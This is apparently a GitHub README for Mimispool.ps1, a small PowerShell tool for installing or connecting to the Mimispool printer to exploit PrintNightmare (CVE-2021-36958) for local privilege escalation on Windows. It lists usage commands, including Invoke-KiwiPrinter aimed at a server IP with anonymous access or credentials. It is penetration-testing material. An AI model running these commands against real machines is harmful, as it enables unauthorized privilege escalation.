

# Mimispool.ps1

Just a very small script to install, uninstall or connect to gentilwiki's Mimispool printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
Install-KiwiPrinter
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```


